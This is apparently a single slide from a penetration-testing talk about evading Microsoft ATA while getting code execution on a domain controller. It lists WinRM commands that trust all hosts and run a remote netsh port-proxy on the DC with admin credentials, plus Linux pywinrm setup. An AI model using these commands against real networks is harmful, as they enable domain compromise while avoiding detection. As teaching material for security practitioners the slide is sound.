

# MS ATA vs DC dumping – RCE on DC
NO wmiexec, psexec
DcomExec, WinRM (open by default)
Win:
winrm quickconfig
winrm set winrm/config/client @{TrustedHosts="*"}
Invoke-Command -ComputerName dc1.winlab.local -ScriptBlock {netsh interface portproxy add v4tov4 listenport=2135 connectaddress=127.0.0.1 connectport=135
} -Credential WINLAB\admin

Linux:
apt-get install gcc python-dev libkrb5-dev python3-winrm
https://github.com/diyan/pywinrm

56